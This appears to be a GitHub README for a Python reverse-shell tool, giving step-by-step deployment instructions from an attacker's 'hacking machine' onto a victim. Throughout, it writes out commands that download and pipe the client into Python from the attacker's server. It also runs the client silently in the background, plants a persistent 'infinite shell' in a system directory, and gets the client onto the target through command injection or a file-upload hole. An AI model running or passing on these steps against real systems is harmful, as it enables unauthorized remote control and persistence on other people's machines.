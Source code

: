 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment [PREFERRED]
(works with cmd line injection)

- [SERVER] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - rs_server:8080/rs_client.py | python3`
- [SERVER] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget rs_server:8080/infiniteShell.sh`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment [ALT]
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..


